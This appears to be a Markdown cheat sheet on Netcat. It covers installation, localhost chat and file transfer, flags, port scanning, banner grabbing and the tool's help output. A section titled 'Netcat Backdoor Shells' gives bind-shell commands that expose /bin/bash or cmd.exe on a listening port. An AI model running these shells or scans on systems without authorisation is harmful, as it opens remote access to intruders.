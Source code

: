 ## NetCat
Netcat is a Unix utility which reads and writes data across network connections using TCP or UDP protocol. 

### Tasks that can be done with NetCat:

* Connect to a port of a target host.
* Listen to a certain port for any inbound connections.
* Send data across client and server once the connection is established.
* Transfer files across the network once the connection is established.
* Can execute programs and scripts of the client on the server and vice versa.
* Can Provide remote shell access of server to a client where shell commands can be executed.


## For Windows

[`<Download />`](https://sourceforge.net/projects/nc110/)

## Installation for linux

```js
apt install netcat-traditional
```
or

```js
sudo apt-get install netcat-traditional
```

## A simple client-server connection:

Type this command on the machine terminal. 
1. To perform simple chat.

```js
#command for terminal 1
nc -l -p 8080
```

```js
#command for terminal 2
nc 127.0.0.1 8080
```

2. To perform file transfer.

```js
#command for terminal 1
nc -v -w 30 -l -p 8080 >file.txt
```

```js
#command for terminal 2
nc -v -w 2 127.0.0.1 8080<file.txt
```

## Netcat Command Flags
```js
nc -4 – use IPv4 only

nc -6 – use IPv6

nc -u – use UDP instead of TCP

nc -k -l – continue listening after disconnection

nc -n – skip DNS lookups

nc -v – provide verbose output
```


## Netcat Port Scanner
```js
nc -zv site.com 80 – scan a single port

nc -zv hostname.com 80 84 – scan a set of individual ports

nc -zv site.com 80-84 – scan a range of ports
```

## Netcat Banners
```js
echo “” | nc -zv -wl [host] [port range] – obtain the TCP banners for a range of ports
```

## Netcat Backdoor Shells
```js
nc -l -p [port] -e /bin/bash – run a shell on Linux

nc -l -p [port] -e cmd.exe – run a shell for Windows
```

### NetCat Help Commands:

```js
$ netcat -h
```

```js
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
 -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```


